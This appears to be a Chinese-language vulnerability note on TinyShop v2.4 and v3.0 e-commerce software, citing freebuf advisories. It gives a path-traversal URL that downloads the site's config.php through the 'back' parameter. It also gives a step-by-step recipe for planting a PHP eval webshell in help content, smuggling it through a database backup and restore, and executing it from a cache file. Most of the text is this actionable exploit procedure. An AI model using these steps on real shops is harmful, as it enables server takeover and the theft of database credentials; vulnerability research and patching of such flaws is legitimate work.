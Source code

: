 ## TinyShop v2.4 任意文件读取漏洞

- 测试方法

  进入后台->系统设置->数据库管理->数据库备份

  备份任意数据库后访问链接

  `http://localhost/tinyshop/index.php?con=admin&act=down&back=../../protected/config/config.php`

  即可通过back参数下载任意文件

  ​

- 漏洞详情参考

  http://www.freebuf.com/vuls/161409.html

## TinyShop v2.4 v3.0 缓存getshell

- 测试方法

  1.进入后台->内容管理->全部帮助，选择任意一条记录，编辑该记录，在其内容中添加一句话后门代码`<?php @eval($_POST[cmd]);?>`并保存

  2.备份数据库中的帮助表，在“系统设置”-“数据库备份” 数据库表中选择包含help的表，在本例中为tiny_help的表，选择后在数据库备份中进行备份。

  3.下载备份的数据库表sql文件，将其中的一句话代码被html转义的部分修改回原样

  4.在“系统设置”-“数据库还原”-“导入”，选择已经修改过的sql文件，选择“上传”，文件上传后会自动还原数据库。     

  5.清理缓存，单击“系统设置”-“安全管理”-“清除缓存”，选择清除所有缓存。

  6.访问页面，在浏览器中随机访问其帮助文件中的列表来生成缓存，例如“用户注册协议”的地址：

  `http://192.168.127.130/tinyshop_2.x/index.php?con=index&act=help&id=14`

  7.访问对应缓存文件获取shell

  `http://192.168.127.130/tinyshop_2.x/cache/368/501/4461.php`


- 漏洞详情参考

  http://www.freebuf.com/vuls/161409.html